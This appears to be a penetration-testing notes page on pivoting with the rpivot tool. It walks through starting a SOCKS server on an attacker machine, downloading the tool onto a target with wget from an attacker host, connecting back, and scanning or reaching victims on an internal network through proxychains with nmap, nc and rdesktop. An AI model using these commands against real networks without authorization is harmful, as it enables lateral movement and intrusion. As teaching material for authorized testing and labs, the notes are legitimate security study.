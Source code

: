 This tool works with Python2, to running it we can create a virtual env with conda

{% code overflow="wrap" %}
```bash
cd rpivot
conda create -n rpivot python=2.7

# Start the server on attacker machine
python2 server.py --server-port $SERVER_PORT --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port $PROXY_PORT # (ex SERVER_PORT = 9980 and PROXY_PORT 9050)
# server_port = expose port from receiving client connection
# proxy_port = port which will be use by proxychains

#ex
python2 server.py --server-port 8899 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
```
{% endcode %}

Now we have to transfer the rpivot .zip directory to target machine

```bash
# attack machine in the dir where there is rpivot.zip
python3 -m http.server 80

# target machine
wget http://$ATT_IP/rpivot.zip
```

Check if in the target machine there is python2 installed and run the connection to the server.

```bash
# target machine
python --version # check python version

# conect to the rpivot server
python client.py --server-ip $ATT_IP --server-port $SERVER_PORT

#ex
python2 client.py --server-ip 10.10.200.56 --server-port 8899
```

When the connection has been initialized, we have to add this configuration to proxychain conf file.

```bash
nano /etc/proxychains.conf

# add follow line in the bottom and COMMENT the socks5 if there is it
socks4 127.0.0.1 $PROXY_PORT
```

Now using `proxychains` we can access to all port of all other network machines.

```bash
# this command to create a port fordward which allow us to see a web page
proxychains nc -nv $VICTIM2_IP $PORT_TO_FORWARD_ON_VICTIM2

# use nmap through the pivoting
proxychains nmap -sT $VICTIM2_IP

# this command allow us to access via RDP to other machine in other network
proxychains rdesktop $VICTIM2_IP

# pivot network discovery
proxychains nmap -sn 192.168.98.15/24
```
